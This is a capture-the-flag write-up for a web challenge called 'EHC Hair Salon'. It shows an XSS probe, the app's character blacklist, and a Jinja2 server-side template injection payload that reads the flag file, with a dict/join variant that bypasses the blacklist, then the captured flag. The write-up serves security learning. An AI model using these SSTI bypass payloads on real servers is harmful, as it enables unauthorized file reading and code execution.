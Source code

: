 # EHC Hair Salon

![1](./media/1.png)

**Category:** Web Exploitation

**Source code:**
[app.py](./media/app.py)

---

## 1. Analyze:

Messing around with the page, we can see a POST form in the main page.
![2](./media/2.png)

I tried insert a string: `aaaaa` and here's what I got.
![3](./media/3.png)

After inserting javascript, in this case: `<script>alert(1)</script>`, we can see that this page XSS vulnerability.

![4](./media/4.PNG)

From what I have learned, [XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting) can possibly leads to [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). We also know that we are unable to use any of these characters:

```python
regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#"
```

## 2. Payload
Basically, the idea is to inject the following payload to read flag.

```
{{cycler.__init__.__globals__.__builtins__.open("flag").read()}}
```
But we can't do that, since it would trigger this:
```python
if '{' in hair_type and re.search(regex,hair_type):
    return render_template_string(error_page)
```
Then, the `error_page` would be rendered instead. After some research, I found this payload from a CTF write-up which can bypass the `regex` filter:
```
{{(cycler|attr(dict(__ini=a,t__=b)|join)|attr(dict(__glob=c,als__=d)|join))[dict(__buil=buil,tins__=tins)|join][dict(op=op,en=en)|join](dict(fl=fl,ag=ag)|join)|attr(dict(re=re,ad=ad)|join)()}}
```

Submit the payload and we get: `FPTUHacking{d4y_d1_0ng_ch4u_0i,ban_da_thoat_khoi_EHC_hair_salon_roi}`
## References
[SSTI payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file)

[Final payload](https://hackmd.io/@d4rkp0w4r/idekCTF-2021#Baby-JinJail-and-jinjail)
